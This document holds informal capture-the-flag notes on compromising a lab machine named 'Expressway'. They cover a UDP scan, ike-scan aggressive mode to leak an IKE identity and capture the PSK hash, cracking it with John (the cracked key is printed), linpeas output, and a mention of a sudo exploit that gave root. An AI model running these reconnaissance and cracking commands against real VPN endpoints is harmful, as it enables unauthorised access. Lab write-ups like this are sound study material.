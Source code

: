 ___


just 1 port? ssh?


has to be bruteforce -> hydra right not working lol

what would be the user???

express? expressway, user, adm, admin



omg there was a udp port my scan completely didn't catch



*scanning udp ports as well with rustscan*
sudo rustscan --udp -a 10.10.11.87



*used this tool*
sudo ike-scan --aggressive 10.10.11.87


*found user though*
Type=ID_USER_FQDN, Value=ike@expressway.htb


*grabbed hash*
sudo ike-scan -A 10.10.11.87 -Ppsk_crack.txt


*convert to john hash*
python3 ikescan2john.py /home/ew/box/expressway/psk_crack.txt


*cracked PSK*
freakingrockstarontheroad (?)



*sqlite db's*
╔══════════╣ Searching tables inside readable .db/.sql/.sqlite files (limit 100)
Found /var/lib/apt/listchanges-old.db: Berkeley DB (Hash, version 9, little-endian)
Found /var/lib/fail2ban/fail2ban.sqlite3: regular file, no read permission
Found /var/lib/lastlog/lastlog2.db: SQLite 3.x database, last written using SQLite version 3046001, file counter 41, database pages 3, cookie 0x1, schema 4, UTF-8, version-valid-for 41
Found /var/lib/rpm/rpmdb.sqlite: SQLite 3.x database, last written using SQLite version 3040001, writer version 2, read version 2, file counter 2, database pages 53, cookie 0x31, schema 4, UTF-8, version-valid-for 2
Found /var/lib/wtmpdb/wtmp.db: SQLite 3.x database, last written using SQLite version 3046001, file counter 212, database pages 4, cookie 0x1, schema 4, UTF-8, version-valid-for 212



*sudo version is vulnerable ran exploit script then root shell*
